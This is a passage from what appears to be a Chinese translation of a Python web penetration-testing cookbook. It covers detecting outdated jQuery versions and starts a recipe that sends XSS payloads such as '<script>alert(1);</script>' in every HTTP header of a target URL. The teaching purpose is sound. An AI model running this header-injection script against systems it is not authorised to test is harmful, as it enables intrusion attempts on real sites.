 对于每个已识别的脚本，我们随后检查是否有提及`jquery.min`，这将表明核心 jQuery 文件：

```
for script in scripts:
  if "jquery.min" in str(script).lower():
```

然后，我们使用正则表达式来标识版本号。在 jQuery 文件中，这将是第一个适合给定正则表达式的内容。正则表达式查找`0-9`或`a-z`，后跟一个重复无数次的周期。这是大多数版本号采用的格式，jQuery 也不例外：

```
versions = re.findall(r'\d[0-9a-zA-Z._:-]+',url.text)
```

`re.findall`方法查找与此正则表达式匹配的所有字符串；然而，正如前面提到的，我们只想要第一个。我们用注释`[0]`来标识它。我们检查这是否等于编写本文时当前 jQuery 版本的硬编码值。这些将需要手动更新。如果该值等于当前版本中的任何一个，脚本将声明该值为最新版本，或者，如果该值不等于当前版本，脚本将打印检测到的版本以及过期消息：

```
if versions[0] == "2.1.1" or versions[0] == "1.12.1":
      print "Up to date"
    else:
      print "Out of date"
      print "Version detected: "+versions[0]
```

## 还有更多…

这个方法显然是可扩展的，只需添加检测字符串和版本，就可以应用于任何 JavaScript 库。

如果要扩展字符串以包含其他库，例如不安全的 Django 或 flask 库，则必须修改脚本以处理声明它们的替代方式，因为它们显然没有声明为 JavaScript 库。

# 基于头的跨站点脚本

到目前为止，我们一直专注于通过 URL 和参数发送有效负载，这是执行攻击的两种明显方法。然而，有许多丰富而肥沃的脆弱性来源往往未被触及。其中一个将在[第 6 章](23.html "Chapter 6. Image Analysis and Manipulation")、*图像分析与处理*中进行深入介绍，我们现在可以对其进行介绍。日志通常保存访问网页的用户的特定标题。通过在头中执行 XSS 攻击来检查这些日志可能是一项值得的活动。

我们将创建一个脚本，该脚本将 XSS 攻击字符串提交到所有可用的头，并通过几个可能的 XSS 攻击循环。我们将提供一个有效负载的简短列表，抓取所有的标题，并按顺序提交它们。

## 准备好了吗

确定要测试的 URL。请参见本例末尾的 PHP 网页，该网页可以使用脚本来测试脚本的有效性。

## 怎么做…

确定目标网页后，将其作为命令行参数传递给脚本。您的脚本应与以下脚本中所示的相同：

```
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY  ONLOAD=alert(1)>']
headers ={}
r = requests.head(url)
for payload in payloads:
  for header in r.headers:
    headers[header] = payload
  req = requests.post(url, headers=headers)
```
